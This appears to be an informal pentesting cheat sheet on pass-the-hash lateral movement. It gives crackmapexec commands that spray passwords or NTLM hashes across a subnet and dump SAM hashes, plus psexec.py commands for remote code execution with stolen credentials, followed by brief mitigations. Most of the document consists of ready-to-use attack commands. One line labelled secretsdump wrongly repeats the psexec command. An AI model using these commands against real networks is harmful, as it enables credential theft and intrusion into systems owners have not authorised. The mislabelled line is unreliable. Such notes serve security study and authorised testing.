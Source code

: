 <br>

## passthehash

---

If we crack a password and/or dump the SAM Hashes, we can leverage both for lateral movement in networks!

<br>

### ??? WTF

we gotta use a tool called crackmapexec

	apt install crackmapexec

PASS THE PASS!

	crackmapexec smb {ip} -u {username} -d {domain} -p {password} --sam
	
	crackmapexec smb 192.168.0.69/16 -u Thanos -d MARVEL -p 1nf1n1ty_Gauntl3t --sam
	
OR PASS THE HASH!

	crackmapexec smb 192.168.0.69/16 -u Spiderman -H hash69f420x31337u --local-auth --sam
	
		--local-auth passes locally
		--sam dumps the SAM file
	
So, crackmapexec throws the password all around the subnet 

AND the ISSUE is a lot of ADMINS will use the SAME PASSWORDS for machines (Especially LOCAL MACHINES)
		
*Now, use smbexec, wmiexec, psexec or Metasploit to break in!*

	psexec.py domain/user:password@ip 

secretsdump: dump SAM hashes :)

	psexec.py domain/user:password@ip 

psxec with hashes

	psexec.py user@ip --hashes LMHASH:NTHASH
	

<br>

### Mitigations

- Limit account re-use: 
	-  Avoid re-using local admin password
	- Disable Guest and Administrator accounts 
	- Limit who is a local administrator (least privilege)
 
- Utilize strong passwords:  
	- The longer the better (>14 characters) 
	-  Avoid using common words 
